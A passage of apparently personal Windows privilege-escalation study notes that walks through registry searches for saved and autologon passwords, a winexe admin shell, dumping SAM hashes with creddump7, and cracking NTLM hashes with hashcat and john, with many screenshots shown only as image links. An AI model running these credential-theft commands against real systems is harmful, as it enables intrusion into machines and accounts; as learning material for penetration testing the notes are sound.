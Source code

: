 ![image](https://github.com/user-attachments/assets/7eef7a01-f584-487f-ad95-0839a951c098)

- Revshell-:

![image](https://github.com/user-attachments/assets/5f13e619-deda-4a1f-a1f3-1b5c100ddfde)


### Saved passwords

- You can query registry for saved password

      reg query HKLM /f password /t REG_SZ /s

- or query to find admin AUTOLOGON credentials

      reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

- Spawn a cmd with admin privilege with `winexe`

      winexe -U '[user]%[password]' //[ip] cmd.exe

 ![image](https://github.com/user-attachments/assets/d1dedfcb-0c29-4d1d-8326-8de66e43a93f)

       
### Paaswords- Security Acount Manager (SAM)

- The SAM and SYSTEM files can be used to extract user password hashes
- Copy it to your machine

![image](https://github.com/user-attachments/assets/54334d3b-cc07-4119-83cd-f372acd2db77)

- Install credump7 to dump the hashes

      git clone https://github.com/Tib3rius/creddump7
      pip3 install pycrypto
      python3 creddump7/pwdump.py SYSTEM SAM

- Dump the hashes with pwdump.py

![image](https://github.com/user-attachments/assets/197fbbb0-c037-4ef0-b2db-62af6d48163d)

- Crack the NTLM(New Technology Lan Manager) hash with john

![image](https://github.com/user-attachments/assets/d9316e5c-d530-4b5c-a4e9-b0e2f2ebf4ca)

### Cracking with Hashcat

- Command-:``` hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt```

![image](https://github.com/user-attachments/assets/f1705fa8-15dc-4af9-b568-63210da6e1a1)

- Hashes result

![image](https://github.com/user-attachments/assets/d6f84f35-894d-4a50-93ab-b33ca79b9f45)


### Passing the hash
